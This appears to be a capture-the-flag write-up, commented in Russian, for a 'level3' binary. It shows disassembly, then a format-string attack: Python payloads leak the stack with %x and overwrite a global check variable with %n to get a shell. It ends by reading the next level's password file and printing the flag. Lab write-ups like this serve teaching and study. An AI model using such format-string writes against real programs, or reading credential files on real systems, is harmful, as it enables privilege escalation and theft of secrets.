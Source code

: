 

# Вызов функции 'fgets', защищенной от переполнения буфера

=> 0x80484c7 <v+35>:	call   0x80483a0 <fgets@plt>

# Можно увидеть вызов 'printf' с тем что мы ввели

0x80484cc <v+40>:	lea    eax,[ebp-0x208]
0x80484d2 <v+46>:	mov    DWORD PTR [esp],eax
=> 0x80484d5 <v+49>:	call   0x8048390 <printf@plt>

# сmp создается с неинициализированной переменной

=> 0x80484da <v+54>:	mov    eax,ds:0x804988c
0x80484df <v+59>:	cmp    eax,0x40

# если эта проверка прошла успешно, создается новая оболочка с помощью 'system("/bin/sh")'

# Мы будем использовать атаку форматной строки
# Сначала нам нужно распечатать память, пока мы не дойдем до адреса переменной, которую хотим изменить

$> python -c "print '\x8c\x98\x04\x08 %x %x %x %x'" > /tmp/payload3
$> cat /tmp/payload3 | ./level3
� 200 b7fd1ac0 b7ff37d0 804988c

# Затем мы используем модификатор %n, чтобы изменить содержимое этой переменной

$> python -c "print '\x8c\x98\x04\x08' + 'a'*60 + '%4\$n'" > /tmp/payload3
$> cat /tmp/payload3 - | ./level3

# cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa

